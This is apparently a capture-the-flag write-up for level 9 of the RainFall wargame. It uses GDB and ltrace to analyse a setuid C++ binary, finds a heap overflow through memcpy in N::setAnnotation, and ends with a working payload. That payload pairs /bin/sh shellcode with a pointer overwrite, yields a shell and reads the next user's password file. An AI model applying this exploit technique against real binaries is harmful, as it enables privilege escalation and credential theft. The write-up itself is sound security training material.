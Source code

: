 ```sh
level9@RainFall:~$ ls -la
total 17
dr-xr-x---+ 1 level9 level9   80 Mar  6  2016 .
dr-x--x--x  1 root   root    340 Sep 23  2015 ..
-rw-r--r--  1 level9 level9  220 Apr  3  2012 .bash_logout
-rw-r--r--  1 level9 level9 3530 Sep 23  2015 .bashrc
-rwsr-s---+ 1 bonus0 users  6720 Mar  6  2016 level9
-rw-r--r--+ 1 level9 level9   65 Sep 23  2015 .pass
-rw-r--r--  1 level9 level9  675 Apr  3  2012 .profile
level9@RainFall:~$ ./level9
level9@RainFall:~$ ./level9 42
```
there is one excutable file **level9**, it does nothing. \
\
Run the binary file with GDB.
```sh
(gdb) info functions
0x080486f6  N::N(int)
0x080486f6  N::N(int)
0x0804870e  N::setAnnotation(char*)
0x0804873a  N::operator+(N&)
0x0804874e  N::operator-(N&)
```
Oh we can see some c++ style functions, N class, N::N(int) constructor etc...
```sh
(gdb) disas main
Dump of assembler code for function main:
   0x080485f4 <+0>:     push   %ebp
   0x080485f5 <+1>:     mov    %esp,%ebp
   0x080485f7 <+3>:     push   %ebx
   0x080485f8 <+4>:     and    $0xfffffff0,%esp
   0x080485fb <+7>:     sub    $0x20,%esp
   0x080485fe <+10>:    cmpl   $0x1,0x8(%ebp)
   0x08048602 <+14>:    jg     0x8048610 <main+28>
   0x08048604 <+16>:    movl   $0x1,(%esp)
   0x0804860b <+23>:    call   0x80484f0 <_exit@plt>
   0x08048610 <+28>:    movl   $0x6c,(%esp)
   0x08048617 <+35>:    call   0x8048530 <_Znwj@plt>
   0x0804861c <+40>:    mov    %eax,%ebx
   0x0804861e <+42>:    movl   $0x5,0x4(%esp)
   0x08048626 <+50>:    mov    %ebx,(%esp)
   0x08048629 <+53>:    call   0x80486f6 <_ZN1NC2Ei>
   0x0804862e <+58>:    mov    %ebx,0x1c(%esp)
   0x08048632 <+62>:    movl   $0x6c,(%esp)
   0x08048639 <+69>:    call   0x8048530 <_Znwj@plt>
   0x0804863e <+74>:    mov    %eax,%ebx
   0x08048640 <+76>:    movl   $0x6,0x4(%esp)
   0x08048648 <+84>:    mov    %ebx,(%esp)
   0x0804864b <+87>:    call   0x80486f6 <_ZN1NC2Ei>
   0x08048650 <+92>:    mov    %ebx,0x18(%esp)
   0x08048654 <+96>:    mov    0x1c(%esp),%eax
   0x08048658 <+100>:   mov    %eax,0x14(%esp) # a
   0x0804865c <+104>:   mov    0x18(%esp),%eax
   0x08048660 <+108>:   mov    %eax,0x10(%esp) # b
   0x08048664 <+112>:   mov    0xc(%ebp),%eax
   0x08048667 <+115>:   add    $0x4,%eax
   0x0804866a <+118>:   mov    (%eax),%eax
   0x0804866c <+120>:   mov    %eax,0x4(%esp)  # ebp + 0xc argv[1]
   0x08048670 <+124>:   mov    0x14(%esp),%eax
   0x08048674 <+128>:   mov    %eax,(%esp) # this
   0x08048677 <+131>:   call   0x804870e <_ZN1N13setAnnotationEPc>
   0x0804867c <+136>:   mov    0x10(%esp),%eax # 0x10 b    0x14 a
   0x08048680 <+140>:   mov    (%eax),%eax # address of start shell code
   0x08048682 <+142>:   mov    (%eax),%edx # shell code
   0x08048684 <+144>:   mov    0x14(%esp),%eax
   0x08048688 <+148>:   mov    %eax,0x4(%esp)
   0x0804868c <+152>:   mov    0x10(%esp),%eax
   0x08048690 <+156>:   mov    %eax,(%esp)
   0x08048693 <+159>:   call   *%edx
   0x08048695 <+161>:   mov    -0x4(%ebp),%ebx
   0x08048698 <+164>:   leave  
   0x08048699 <+165>:   ret    
End of assembler dump.
```
This time we can find function call which is mangled like ```call   0x8048530 <_Znwj@plt>```, We can find original function like this.
```sh
(gdb) info functions
...
0x08048530  operator new(unsigned int)
...
(gdb) x/i 0x08048530
   0x8048530 <_Znwj@plt>:       jmp    *0x8049b70
```
We can define the function ```_Znwj``` was ```operator new()```. its produced by GNU gcc, for more information, [link](https://en.wikipedia.org/wiki/Name_mangling#:~:text=Complex%20example%5B,(Itanium)%20ABI%3A). \
\
We could find some function with vulnerability in ```setAnnotation()``` at line +37.
```sh
(gdb) disas 0x804870e
Dump of assembler code for function _ZN1N13setAnnotationEPc: # setAnnotation(this, av)
   0x0804870e <+0>:     push   %ebp
   0x0804870f <+1>:     mov    %esp,%ebp
   0x08048711 <+3>:     sub    $0x18,%esp
   0x08048714 <+6>:     mov    0xc(%ebp),%eax # 0xc = param 1
   0x08048717 <+9>:     mov    %eax,(%esp) #this = 자기자신 = esp,
   0x0804871a <+12>:    call   0x8048520 <strlen@plt>
   0x0804871f <+17>:    mov    0x8(%ebp),%edx # 0x8 = param 0
   0x08048722 <+20>:    add    $0x4,%edx
   0x08048725 <+23>:    mov    %eax,0x8(%esp)
   0x08048729 <+27>:    mov    0xc(%ebp),%eax
   0x0804872c <+30>:    mov    %eax,0x4(%esp)
   0x08048730 <+34>:    mov    %edx,(%esp)
   0x08048733 <+37>:    call   0x8048510 <memcpy@plt> # here
   0x08048738 <+42>:    leave  
   0x08048739 <+43>:    ret    
End of assembler dump.
```
They use ```memcpy()``` who has vulnerability of buffer overflow, its calling in main function with some parameter. it can represent like :
```cpp
void setAnnotation()
{
	memcpy();
}
```
```sh
(gdb) disas main
   ...
   0x08048664 <+112>:   mov    0xc(%ebp),%eax
   0x08048667 <+115>:   add    $0x4,%eax
   0x0804866a <+118>:   mov    (%eax),%eax
   0x0804866c <+120>:   mov    %eax,0x4(%esp)
   0x08048670 <+124>:   mov    0x14(%esp),%eax
   0x08048674 <+128>:   mov    %eax,(%esp)
   0x08048677 <+131>:   call   0x804870e <_ZN1N13setAnnotationEPc>
   ...
```
So basically, the main function has argc, argv and envp, and they are usual parameters passed to the function. \
According to this we can access these values as normal parameters. check the [stack frame role here](https://en.wikibooks.org/wiki/X86_Disassembly/Functions_and_Stack_Frames). \
\
We can concentrate on the line +112, it takes ```0xc``` of ebp, this means it takes ```argv[1]```, and save itself with dereferenced value. \
On the line +124 and +128, it gets ```0x14``` of esp which is one of the instance ```N```, and points itself. \
It will be like:
```c++
N *n = new N();
n->setAnnotation(av[1]);
```
So we can verify where is buffer overflow with argument,
```sh
(gdb) r aa0aa1aa2aa3aa4aa5aa6aa7aa8aa9ab0ab1ab2ab3ab4ab5ab6ab7ab8ab9ac0ac1ac2ac3ac4ac5ac6ac7ac8ac9ad0ad1ad2ad3ad4ad5ad6ad7ad8ad9ae0ae1ae2ae3ae4ae5ae6ae7ae8ae9
Starting program: /home/user/level9/level9 aa0aa1aa2aa3aa4aa5aa6aa7aa8aa9ab0ab1ab2ab3ab4ab5ab6ab7ab8ab9ac0ac1ac2ac3ac4ac5ac6ac7ac8ac9ad0ad1ad2ad3ad4ad5ad6ad7ad8ad9ae0ae1ae2ae3ae4ae5ae6ae7ae8ae9

Program received signal SIGSEGV, Segmentation fault.
0x08048682 in main ()
(gdb) i r
eax            0x61366461       1630954593
ecx            0x3965   14693
edx            0x804a0a2        134520994
ebx            0x804a078        134520952
esp            0xbffff670       0xbffff670
ebp            0xbffff698       0xbffff698
```
it corruptes EAX, because
```sh
(gdb) disas main
   ...
   0x08048677 <+131>:   call   0x804870e <_ZN1N13setAnnotationEPc>
   0x0804867c <+136>:   mov    0x10(%esp),%eax
   0x08048680 <+140>:   mov    (%eax),%eax
=> 0x08048682 <+142>:   mov    (%eax),%edx
   0x08048684 <+144>:   mov    0x14(%esp),%eax
   ...
```
After calling the function at +131, we can see copying the value of 0x10 of esp in eax. remember this information.
```sh
level9@RainFall:~$ ltrace ./level9 BBBB
__libc_start_main(0x80485f4, 2, 0xbffff7e4, 0x8048770, 0x80487e0 <unfinished ...>
_ZNSt8ios_base4InitC1Ev(0x8049bb4, 0xb7d79dc6, 0xb7eebff4, 0xb7d79e55, 0xb7f4a330) 	= 0xb7fce990
__cxa_atexit(0x8048500, 0x8049bb4, 0x8049b78, 0xb7d79e55, 0xb7f4a330) 				= 0
_Znwj(108, 0xbffff7e4, 0xbffff7f0, 0xb7d79e55, 0xb7fed280)  						= 0x804a008
_Znwj(108, 5, 0xbffff7f0, 0xb7d79e55, 0xb7fed280) 									= 0x804a078 #\x0c\xa0\04\x08
strlen("BBBB") 																		= 4
memcpy(0x804a00c, "BBBB", 4) 														= 0x804a00c
_ZNSt8ios_base4InitD1Ev(0x8049bb4, 11, 0x804a078, 0x8048738, 0x804a00c) 			= 0xb7fce4a0
```
We can see ```memcpy()``` copies in address 0x804a00c,
```sh
(gdb) b *main+128
Breakpoint 1 at 0x8048674
(gdb) r AAAA
Starting program: /home/user/level9/level9 AAAA

Breakpoint 1, 0x08048674 in main ()
(gdb) x $esp+0x10
0xbffff710:     0x0804a078
```
We check ESP address before enter the function ```memcpy()```, we can check its not far away from address of ```memcpy()```. \
Because of this, EAX was corrupted, at line main+136. \
\
The address of variable ```a``` is ```0x804a008``` and ```b``` is ```0x804a078``` \
difference between them is 112 (0x70). \
Knowing this we just have to simply buffer overflow the ```a```'s ```char annotation[100];``` variable by passing long string to ```av[1]```.
```sh
(gdb) disas 0x80486f6
Dump of assembler code for function _ZN1NC2Ei:
   0x080486f6 <+0>:     push   %ebp
   0x080486f7 <+1>:     mov    %esp,%ebp
   0x080486f9 <+3>:     mov    0x8(%ebp),%eax
   0x080486fc <+6>:     movl   $0x8048848,(%eax)
   0x08048702 <+12>:    mov    0x8(%ebp),%eax
   0x08048705 <+15>:    mov    0xc(%ebp),%edx
   0x08048708 <+18>:    mov    %edx,0x68(%eax) # memory space for int nb, char annotation[100]
   0x0804870b <+21>:    pop    %ebp
   0x0804870c <+22>:    ret
End of assembler dump.
```
```c++
a->setAnnotation(av[1]);
```
Since ```b```'s address (```0x804a078```) is now corrupted and changed to our desired address (```\x0c\xa0\04\x08```), \
the code will try to dereference twice:
```c++
return (b->*(b->func))(*a);
```
The flow of dereference is ... \
```\x0c\xa0\04\x08(start addr)``` -> ```\x10\xa0\x04\x08(start addr + 4)``` -> ```\x31\xc0\x50\x68...(shell code)```. \
\
So it will end with our exploitation shell code ```/bin/sh```.
```sh
level9@RainFall:~$ ./level9 $(python -c 'print "\x10\xa0\x04\x08" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "A" * 76 + "\x0c\xa0\04\x08"')
$ whoami
bonus0
$ cat /home/user/bonus0/.pass
(hidden)
```
level 9 passed !